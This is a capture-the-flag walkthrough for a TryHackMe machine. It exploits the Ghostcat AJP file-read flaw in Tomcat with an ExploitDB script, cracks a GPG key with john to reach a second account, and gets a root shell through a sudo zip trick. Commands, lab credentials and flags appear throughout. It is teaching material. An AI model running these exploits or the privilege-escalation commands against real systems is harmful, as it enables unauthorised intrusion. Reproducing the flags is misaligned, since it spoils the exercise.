

---

 > Start with an `nmap` scan of the target:
 
```bash
└─$ nmap -sC -sV -Pn 10.10.16.95                     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 12:56 EDT
Nmap scan report for 10.10.16.95
Host is up (0.33s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.62 seconds

```

We see there are open ports for `ssh`, `http`, and `ajp13`.
* `ajp13` is Apache Jserv Protocol, and it is a protocol that allows communication between Apache server and web application. It also works well with `tomcat`

> Using `searchsploit` to search for an exploit for `ajp`:

```bash
searchsploit ajp
```



We see that there is a python exploit file available `48143.py`.

```bash
└─$ searchsploit -p 48143   
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
```

> Copy this file to our working directory to not make changes to the actual file, then work with it.

```bash
cp /usr/share/exploitdb/exploits/multiple/webapps/48143.py ./
```

Then, we run the exploit with the IP address of the target machine:
```bash
python3 48143.py 10.10.16.95
```

I got two errors, you might not get these when running. Here are the fixes:
1. Remove the `bufsize=0` parameter from the function in line 262.
2. Change the last line, line 301 to `print("".join([d.data.decode('utf-8') for d in data]))`.

After running, we see that the exploit returns for us the content of the `WEB-INF/web.xml` file. This file contains any initialization parameters and container-managed security constraints that you want the server to enforce for you.

The output of this file contains a username and password: `skyfuck:8730281lkjlkjdqlksalks`.

These can be used to login via SSH to the server machine.

```bash
ssh skyfuck@10.10.16.95
```
- Entering the password we obtained successfully opens an SSH connection.

Upon entering, we can move to the `merlin` directory for the user. Listing the files in that directory using `ls`, we see the `user.txt` file.

###### Compromise this machine and obtain user.txt: `THM{GhostCat_1s_so_cr4sy}`

In the `skyfuck` user directory, we see 2 files.
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

> These are private files that contain passwords. We can crack them using `john` tool to obtain the passwords.

First, we download the files to the local attacking machine:
```bash
└─$ scp skyfuck@10.10.16.95:/home/skyfuck/* ./Desktop
skyfuck@10.10.16.95's password: 
credential.pgp                       100%  394     0.6KB/s   00:00    
tryhackme.asc                        100% 5144     7.6KB/s   00:00
```

Now, we can use `gpg2john` on the `tryhackme.asc` file and store it in a file called `hash`.
```bash
gpg2john tryhackme.asc > hash
```

Now, we can use dictionary attack using `john` on the `hash` file to find the password:
```bash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-03-29 16:30) 20.00g/s 21440p/s 21440c/s 21440C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We get the username password combination `tryhackme:alexandru`. 

> Now, we can use that to decrypt the `.pgp` file.

1. Import the `.asc` file.
```bash
gpg --import tryhackme.asc
```
2. Decrypt the `.pgp` file using the password uncovered above.
```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We see the username password combination for user `merlin`, `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.

Now, we can change user to `merlin`:
```bash
su merlin
```
> enter the password we found above.

As `merlin` we can find if we have any privileges we can exploit using the `sudo -l` command.


> We see that we can run `zip` as root. Head to [gtfobins - zip](https://gtfobins.github.io/gtfobins/zip/) to exploit the `zip` sudo privilege.

Running these commands as seen in the website, we can achieve SUDO privileges:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

After running them, we are taken to a root shell. We can now read the contents of the `/root/root.txt` flag file.

```bash
cat /root/root.txt
```

###### Escalate privileges and obtain root.txt : `THM{Z1P_1S_FAKE}

---

`